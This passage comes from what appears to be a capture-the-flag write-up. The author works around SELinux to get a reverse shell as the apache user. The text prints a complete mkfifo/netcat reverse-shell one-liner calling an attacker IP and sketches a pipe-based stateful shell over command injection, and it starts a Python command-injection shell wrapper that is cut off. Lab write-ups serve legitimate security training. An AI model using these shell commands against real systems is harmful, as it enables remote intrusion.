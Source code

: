 
SELinux is blocking the pipe creation, at least in `/tmp`. I can see
`object_r:tmp_t` for `/tmp`, and `tclass=fifo_file` for a pipe.

So I tried it outside of `/tmp`, and no logs:

    
    
    rm /dev/shm/f;mkfifo /dev/shm/f;cat /dev/shm/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/dev/shm/f
    

But also no shell.. Turns out `nc` isn’t on the box, but the pipe did create:

    
    
    CTF> which nc
    CTF> ls -l /dev/shm
    total 0
    prw-r--r--. 1 apache apache 0 Jul 16 22:46 f
    

### Shell as apache

#### Background

Since the box intended to not allow me to get a reverse shell as apache, I’ll
think about how I would have gotten around that problem. The easiest answer is
to just do the handful of commands I did as apache via the webpage cmd
instance. I showed that earlier.

But never one to pass up a neat coding exercise, I decided to try to make a
stateful shell from command injection, similar to what I did in
[Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell). I’ll use a
technique that IppSec came up with where I create a shell process on target
that looks like this:

    
    
    tail -f pipe1 | /bin/sh 2>&1 > pipe2
    

The `tail -f pipe1` holds open the shell, so anything I write to that pipe
will go into `sh`, and then anything coming out will go into `pipe2`. To The
`sh` session runs statefully, and I can write commands into `pipe1`, and get
results from `pipe2`.

Unfortunately, when I wrote this shell, I had not yet figured out that I could
write pipes in `/dev/shm`, and I thought that submitting a command to make
those pipes would fail. So I settled for a state-less shell that at least
makes it easy to run commands without having to look up the otp over and over.
Good exercise for the reader to convert this to a stateful shell, like I had
in Stratosphere.

#### Code

I’ll make use of the [python cmd
module](https://docs.python.org/3/library/cmd.html) to build the shell.

    
    
      1 #!/usr/bin/env python3
      2 
      3 import re
      4 import requests
      5 import time
      6 from cmd import Cmd
      7 #from datetime import datetime
      8 from subprocess import Popen, PIPE
      9 
     10 class CTF_TERM(Cmd):
     11     prompt = "CTF> "
     12     
     13     def __init__(self, proxy=None):
     14     